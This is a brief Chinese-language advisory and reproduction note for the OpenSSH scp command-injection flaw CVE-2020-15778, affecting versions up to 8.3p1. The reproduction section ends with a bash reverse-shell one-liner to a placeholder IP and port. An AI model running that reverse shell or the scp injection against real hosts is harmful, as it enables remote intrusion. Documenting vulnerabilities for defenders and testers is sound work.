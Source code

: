 # OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

```
OpenSSH <= 8.3p1
```

## 漏洞复现

可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![image-20220209125535740](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091255788.png)

执行命令 ping dnslog



![image-20220209125550216](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091255296.png)



反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```
